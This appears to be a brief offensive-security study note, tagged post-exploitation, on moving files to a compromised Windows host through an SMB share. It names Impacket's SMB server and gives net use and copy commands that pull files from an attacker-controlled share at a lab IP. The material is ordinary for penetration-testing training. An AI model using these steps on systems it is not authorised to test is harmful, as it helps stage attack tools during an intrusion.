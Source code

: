 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Windows
---
```

A SMB share can be used across an entire domain
1. [[3. Exploitation/Operating Systems/Windows/Tooling/Impacket|Impacket]] SMB server share
2. Net Use

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

